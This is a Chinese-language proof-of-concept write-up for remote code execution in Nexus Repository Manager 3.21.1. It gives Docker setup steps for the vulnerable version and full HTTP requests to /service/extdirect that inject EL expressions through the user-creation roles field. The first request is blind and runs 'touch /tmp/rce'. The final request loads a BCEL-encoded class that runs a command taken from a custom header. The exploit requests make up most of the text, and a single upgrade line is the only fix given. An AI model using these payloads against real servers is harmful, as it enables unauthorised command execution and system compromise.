 # Nexus_Repository_Manager3_Vulnerabilities
Nexus Repository Manager3 - 远程执行代码漏洞回显payload

**环境搭建**

使用`https://hub.docker.com/r/sonatype/nexus3/tags`,pull下漏洞版本的docker

```java
查看docker history
sudo docker history sonatype/nexus3:3.21.1 
查看docker history 完整命令
sudo docker history sonatype/nexus3:3.21.1 --no-trunc
拉取镜像
sudo docker pull sonatype/nexus3:3.21.1
启动
sudo docker run -it -d --name nexus -p 8081:8081 -p 5050:5050 --name nexus sonatype/nexus3:3.21.1
sudo docker exec --user root -it 739eeacbfe93 bash
```

**无回显poc**

```
POST /service/extdirect HTTP/1.1
Host: 34.92.64.191:8081
Content-Length: 350
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.01485219710140373
Content-Type: application/json
Accept: */*
Origin: http://34.92.64.191:8081
Referer: http://34.92.64.191:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: harbor-lang=zh-cn; grafana_session=5eab6ca0a546d0df32ab22b1d36dc996; NX-ANTI-CSRF-TOKEN=0.01485219710140373; NXSESSIONID=f6d08b8b-ec8a-45fd-8539-ea034a9f31b2; _ga=GA1.1.1917822484.1597226847; _gid=GA1.1.1059631663.1597226847
Connection: close

{"action":"coreui_User","method":"create","data":[{"userId":"3","version":"","firstName":"test","lastName":"test","email":"test@test.com","status":"active","roles":["$\\X{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}"],"password":"admin"}],"type":"rpc","tid":33}
```

![无回显](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/2ecc9372-574a-4864-b97f-3577e89a8ab8/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200821%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200821T104424Z&X-Amz-Expires=86400&X-Amz-Signature=53e3a021cf7614e680b1bf723bd1ca1da65959035579d11e354d8ed11a7bf68e&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%221.png%22)

![touch /tmp/rce](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/47f6ea38-633f-45a5-a6e8-a1821435db48/2.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200821%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200821T104449Z&X-Amz-Expires=86400&X-Amz-Signature=0a5f206016d9051db4b419b47d359d696f979ba06a72abbc7da25ede3e3b3025&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%222.png%22)

**回显poc**

![bcel](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/a5a677bf-766b-435a-b2d2-cf07348add90/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200821%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200821T104526Z&X-Amz-Expires=86400&X-Amz-Signature=a39d414d2976d9a18e635f4b04154ba5c0dee34463f240dc879d80abd028cf6b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

选择JDK内置的`com.sun.org.apache.bcel.internal.util.ClassLoader`来动态加载我们的类

```
${''.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$' + code).newInstance()
```

最终poc

```
POST /service/extdirect HTTP/1.1
Host: 192.168.233.130:8081
Content-Length: 4083
X-Requested-With: XMLHttpRequest
hu3sky_command: ls -al
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.9332502931671067
Content-Type: application/json
Accept: */*
Origin: http://192.168.233.130:8081
Referer: http://192.168.233.130:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; NX-ANTI-CSRF-TOKEN=0.9332502931671067; NXSESSIONID=395d2b71-9ae5-4020-81b9-9062d9f8a1cc
Connection: close

{"action":"coreui_User","method":"create","data":[{"userId":"3","version":"","firstName":"test","lastName":"test","email":"test@test.com","status":"active","roles":["$\\X{''.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$7b$I$A$A$A$A$A$A$A$8dV$d9s$UE$Y$ff5$bb$9b$99L$s$d7$q$9b$a4$T$82$82$B6$Jl$Q9d$40E$$E$c2$n$89$60$40$c5$c9$a4C6$d9$cc$ac3$b3$n$u$de7$o$e2$N$de7$8a$fa$60$95$b5$a1$a4$b4$f4$85$H$ff$E_$f4$c9$X_$7c$b1$ca$w$v$f1$eb$d9$5d$b2$J$ab$b8$3b$d5$d3$fd$dd$df$d7$bf$af$7b$7e$fc$fb$9b$ef$A$ac$c0$X$g$9a$b1MC$E$bd$K$b6$ab$d8$a1$n$8e$9d$gv$e1v9$ecV$d1$t$v$fd$w$eeP$b0G$c5$5e$VwJ$95$BI$dd$a7b$bf$86y$b8K$c5$ddr$7d$8f$8au$K$O$c8$e9$bd$K$y$N$83$b0U$M$v$Q$w$86U$iT1$a2$m$a5bT$c5$98$82$b4$86q8rp5dp$9f$86$f9$f0$U$f8$K$C$N$8b$e1iX$84$ac$i$s$U$i$d2$d0$z$c3$ec$c6$a4$8a$c3$f2$7d$bf$86V$3c$m$87$pR$e6A$a9M$c3j$3c$a4$e0a$N$x$f1$88$82G$Z$w$d6$a5$9cTp$pC$q$d1$b9$87$n$ba$d1$j$S$M$b5$bd$vG$ec$c8$8e$P$K$af$df$gL$T$a5$ea$a0$Iv$L$3f$e3$3a$3e$ad$aa$fb$C$cb$k$dbneB$$$VF$c1c$94$Q$e5F$b9P$K$U$3c$F$ca$a0m$9e$b4E$sH$91$W$83$ba$ceN$87$ce$u$Ab$f5$b9Y$cf$W$5bR$d2z$e3f$7b$c4$3d$b0W$Mnt$9d$40L$G$c9Qk$c2$d2q$3d$d6$e8x$iO0$d4IBO$dar$O$f6$f4$8fx$c2$gb$d0$83p$d2$eb$daV$da$d7$f1$q$9e$a2$mt$3c$8dgt$3c$8b$a3$M$jR$t$vu$92$fd$d3$a2$j$rsJ$40$c7s8$c6$Q$L$f2i6$ec$ef$9d$f6$b4spT$d8$c1Z$86$ae$ffc$a9c$b3$Tx$87$c9$d4$84$95$ce$K$j$cf$e3$b8$8e$Xp$82a$85$ed$8e$t$7dw88dyb$5c8$81$eb$f9I$car$d4O$O$8d$3aI_x$Ti$R$q$7d$7f$3c9$5d$C$j$_$e2$r$w$9aW$u$ba$8e$97q$9cvf$3a$bc$8di$cb$a7$c4_$c1$ab3$ea$93$8fZ$c1k$3a$5e$c7I$86J$da$b9$bd$5e$w$Q$k$a5$X$8a$a5$dc$9e$5d$5e$ca$b9DU$3cq_V$f8$BmJ$b8$cb$85$85T$bc$95$S$94$o$r$f6$fb$C$d2$3d$c8P3$92$bd$ce$l$3b$7c$80$92$h$b7$i$da$Q0$b4$V$edo$c8$O$P$LO$Mmu2$d9$804$845$ae$e0$94$8e7$f0$a6$8e$b7$f0$b6$82wt$bc$8b$f7$e4$k$bf$cf$d04$5bow$c1$_$_2J$M$e5yR$f3$D$j$l$ca$C7$cf$8enC6$95$Oe$3e$c2$c7$ML$d3$f1$JN$e88$8dOu$7c$sAuF$O$eb$b0$a6X$92P$f7$SXu$7c$$Y$9cR$ebq$c4d$d6$ef$99$85$cf$Z$$$3d1$9c$a6$8a$f7lI$894$95$a1$da$cez$kmr$R$a7$8d$89$ce$de$d9$e8$rL$d5Qu7$J$3bM$90$Y$wh$$M$f4$ceNdm$a9$ee$MGd$a2$da$X$c1$cd$b6$z$7c$3f$V$827$9a$d8$t$7b8B$96$Z$W$r$$Grg9p$x$c3$ae$b7$c3$g$t$fd$85W$f0$l$C$8e4Tr$Q$ce$a9z$89r$C$K$J$e4M$ceL$be$60$93N$j$c2$Yu$zC$bc$5c$94$fb$u5$b2$d0$97$cd$I$cf$ce$fb$91X$dc$$$82$R$97$ca$b4$beL$98$fb$_$8b$a2$5c$e1$f2$W$c8$7f$cb$bf$f1$u$b4$943$e1$8eQ$e8k$ca$84V$e6t$u$5b$d3$fai$da$ee$ac$T$a4d$v$c2$de$w$$$e23$eaR$m$93bTL$K$9ba$f1$Vvb$97$e7$cam$9f$e9$a9$40$a4$ce$qO$r$fdB$60$zz$9b$d9H$b2$Q$89$b2$M$J$a3$86iV$be$e3B$aa$g$kyt$3bP$a5$acLF8$ff$D$b73zR$e2$tp$8b$87H$ec$90$3c$83f$e1$a0h$82$dc$c5$86$d3Y$7f$84$dev$da$95$XOmF$k$5c$e1$ed$d3$efY$b6$a0Km5$dd$b6$f2$X$a1$f3$87$$$M$gMZ$b5$d3$9b$8e$q$c4$ba$a6$c0$be$82$3c$9c$d6$d2X$R$S$p$a8$94$cd$8f9R42F$d4y$qp$e1$y$e6l3$oF4$87Xo7$8d$V$dd$5d9$u$db$N$f5$y$ww$y54$a2$9bQ$k$95$i$k$5dB$ac$efQE$8f$Z3t$920$xx$85Q$ze$U$ae$8421S$e5$eaw$ab$w$p$ab$b4$b8$W$af$fc$80$bd$c5$d5$b8$b6$dc$ac$e2U$e7$d9Q$ae$f0$w$b2a$ea$5c$3f$cf$8ep$3d$87$9a$ij$8d$ba$i$eaO$b1t$b86$Mi$ae$9aW$87$e6$aa$rM1kxM$u$da$40$8fY$cbk$8d$c6$c8$b7$88$e7$d0$c4kh$d2$9cC$8bYWJ$ad$xR$eby$bd$b4$c9$8b$8c$fa$C$e3$7b$b4$9aF$de_$9b$f4$d7$c0$hB$7f$Ny$7f$8d$bcq$da_$9c$c7$8d$b9E$D$8dE$cbM$a5$d4$a6$o$b5$b9$94$da$5c$a4$b6$f0$W$e9$a9$3dJ$8c$81$881$afOr$5bh$d5L$ab$ab$fa$c2x$e6$99$dc$b8$dal$3d$87$f9$Dg$b1$80$f3$i$ae$c9$a1c$K$L$cd$b6sX4p$O$8b$Hx$db$U$SS$e84$e7$f2$b99t$N$98$ed$e71$ff$i$ba$H$a6$b0$84$b7$e6$b0$94$b7$d3$60$qi$c8$a1$c7l$3d$7d$f1$tnH$c62NE$bdV$w$z$e7$94$eeuOh$ec$f4$df$b6D$c8$9c$Q$ng$d0Ec5$a2$a8$81$8eZ$d4$a3$8e$AVO$802$b0$Q$N$f4e$d5H$c8$89c$3d$9a$b0$958$3b$d1$82$U8$i$fa$d2$3a$846$i$c1$5c$i$p$3c$9d$c4Ux$HW$d3$9d3$l_c$B$7e$c45$f8$F$j$b8$80$c5LE$82$d5$a0$935$a3$8bu$a0$9b$99X$c2va$v$hF$92$j$c32v$C$d7$b2$8f$b0$9c$e5$b0$82$fd$80$95$ecg$acb$bfb5$fb$N$d7$b3$df$e9f$fa$D$z$ec$_$dc$88$h$u$d2$_$R$bb$88$fd$a8R$40$dfU7$vX$af$e0$e6pRui$c2$I$f3$X$d9$3e$b4$ff$a7LH$5e_$c2$cf$_7$5cF$a1gc$f8lR$b0$Z$94P$82V$X$a9$qW$8a$e1O$c4$b0$85B$8eR$T$ae$84$8a$5b$$u$eb$d6B$b7R$l$ad8$Nu$h$f5$dd$aa$af$K$adZA$b2$f9$adi$o$7d$d9$c2$b2$7d$x$a0$d0_E$V$b4$b0$M$K$e6lQp$ab4$bd5$dc$cb$db$fe$B$ea$ea$b4$ba$c3$L$A$A').newInstance()}"],"password":"admin"}],"type":"rpc","tid":33}
```

![回显](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/bd9d7539-7208-4efa-b374-e1a7c2a71d8e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200821%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200821T104541Z&X-Amz-Expires=86400&X-Amz-Signature=ddb209e8cd77ac1f180af7e393195f8ad7292fc44f48ee81cd20bc23a9eb54f7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**修复**

升级至最新版本或 Nexus Repository Manager 3.x OSS / Pro > 3.21.1
